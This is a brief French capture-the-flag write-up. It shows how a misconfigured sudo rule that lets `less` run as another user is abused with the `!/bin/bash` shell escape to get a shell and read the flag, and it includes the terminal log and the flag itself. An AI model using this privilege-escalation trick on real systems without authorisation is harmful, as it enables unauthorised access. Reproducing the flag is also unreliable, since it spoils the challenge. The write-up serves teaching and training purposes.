 # SuiiiDo

Le nom du challenge fait penser à `sudo`, et dans tous les cas on a accès à rien d'autre.
Donc on tente un p'tit `sudo -l`.

```bash
user@f08f9824b2a5:~$ sudo -l
Matching Defaults entries for user on f08f9824b2a5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on f08f9824b2a5:
    (user-cracked) NOPASSWD: /usr/bin/less /home/user-cracked/note.txt
```

Oh! On peut lancer `less` en utilisant le compte `user-cracked` !

Pour cela, on peut exécuter la commande suivante :
`sudo -u user-cracked /usr/bin/less /home/user-cracked/note.txt`

Cool. On a un ascii art de Ronaldo mais pas de flag !

Comment faire ? ---> https://gtfobins.github.io/gtfobins/less/#shell

Dans la console less, on tape :
```
!/bin/bash
```

Et hop, un shell.

On va dans notre home et on affiche le flag.

Tl;dr

```bash
user@f08f9824b2a5:~$ sudo -u user-cracked /usr/bin/less /home/user-cracked/note.txt 

user-cracked@f08f9824b2a5:/home/user$ cd ~

user-cracked@f08f9824b2a5:~$ ls
beca179417c329c2-flag-a2344ce653189f9f.txt  note.txt

user-cracked@f08f9824b2a5:~$ cat beca179417c329c2-flag-a2344ce653189f9f.txt 
NBCTF{CR7_doesnt_use_less_he_uses_m0re!}
```
